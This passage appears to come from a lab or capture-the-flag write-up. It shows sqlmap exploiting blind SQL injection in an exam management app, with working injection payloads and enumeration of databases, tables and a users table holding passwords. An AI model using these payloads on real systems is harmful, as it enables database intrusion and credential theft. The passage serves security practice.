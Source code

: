 ## Foothold

### ERM: SQLi

- sqlmap

```console
└─╼$ sqlmap -r request.txt -p id --batch
sqlmap identified the following injection point(s) with a total of 358 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 3806=3806 AND 'Tuxa'='Tuxa

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 1397 FROM (SELECT(SLEEP(5)))kKFV) AND 'lPQc'='lPQc
---
```

- enumerate database

```console
└─╼$ sqlmap -r request.txt -p id --batch --privilege
database management system users privileges:
[*] %mysqluser% [1]:
    privilege: USAGE
    
└─╼$ sqlmap -r request.txt -p id --batch --dbs
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb

Database: erms_db
[6 tables]
+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+

Database: erms_db
Table: users
[10 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| type         | tinyint(1)   |
| avatar       | text         |
| date_added   | datetime     |
| date_updated | datetime     |
| firstname    | varchar(250) |
| id           | int(50)      |
| last_login   | datetime     |
| lastname     | varchar(250) |
| password     | text         |
| username     | text         |
+--------------+--------------+

```